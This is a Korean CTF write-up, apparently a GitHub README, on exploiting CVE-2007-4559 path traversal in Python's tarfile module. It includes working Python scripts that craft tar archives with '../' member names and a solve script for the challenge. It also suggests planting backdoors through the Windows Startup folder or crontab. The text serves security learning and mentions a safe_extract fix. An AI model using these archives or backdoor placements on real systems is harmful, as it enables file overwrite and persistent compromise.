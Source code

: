 # python_tar

CVE-2007-4559 취약점을 활용하는 문제이다.

```python
import tarfile
def change_name(tarinfo):
    tarinfo.name = "../b/" + tarinfo.name
    return tarinfo
with tarfile.open("test.tar", "w:xz") as tar:
    tar.add("test.txt", filter=change_name)
```

위와 같이 tar 내부에 존재하는 이름을 수정한 tar 파일을 만들고

```python
import tarfile
with tarfile.open("test.tar", "r") as tar:
    tar.extractall()
```

해당 파일을 extract하면 그 경로로 압축 해제된다.

만약 최고 권한으로 실행되어 있다면 윈도우는 `C:\Users\사용자 계정\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 경로에 압축을 풀어서 백도어를 심을 수 있고, 리눅스에서는 `crontab` 파일을 덮어서 백도어로 활용할 수 있겠다.

```
hyuunnn@hyuunnn:/mnt/c/Users/hyuunnnn/Desktop/cve-2007-4559/a$ tar -xvf test.tar
tar: Removing leading `../' from member names
tar: ../b/test.txt: Member name contains '..'
tar: Exiting with failure status due to previous errors
```

tar 명령어의 문제가 아닌 `tarfile` 라이브러리의 문제임을 확인할 수 있다.

https://github.com/microsoft/GRTr/pull/7/files - `safe_extract` 함수를 보면 `tar.getmembers()`를 사용하여 루프 돌면서 경로가 맞는지 확인한다.

## 문제 풀이

1. 문제 파일로 주어진 `run.py` 코드를 분석
2. `flag.txt` 파일을 만들어서 위 코드에서 요구하는 문자로 저장
3. `make_tar.py`를 실행하여 tar 파일 생성

```python
## make_tar.py
import tarfile

def change_name(tarinfo):
    tarinfo.name = "../../../../../../tmp/" + tarinfo.name
    return tarinfo

with tarfile.open("test.tar", "w:xz") as tar:
    tar.add("flag.txt", filter=change_name)
```

4. 생성된 tar 파일을 웹 서버에 업로드하면 `FLAG`가 출력된다.

## 관련 자료

https://www.bleepingcomputer.com/news/security/unpatched-15-year-old-python-bug-allows-code-execution-in-350k-projects/

https://discuss.python.org/t/policies-for-tarfile-extractall-a-k-a-fixing-cve-2007-4559/23149

https://github.com/python/cpython/issues/45385

https://www.trellix.com/en-us/about/newsroom/stories/research/the-bug-report-september-2022-edition.html#CVE-2007-4559

https://www.trellix.com/en-us/about/newsroom/stories/research/limiting-the-software-supply-chain-attack-surface.html

https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html

https://www.cwn.kr/news/articleView.html?idxno=12545

https://github.com/advanced-threat-research/Creosote

https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall

https://www.theregister.com/2022/09/22/python_vulnerability_tarfile/

https://github.com/microsoft/GRTr/pull/7/files https://github.com/tensorflow/privacy/pull/344/files
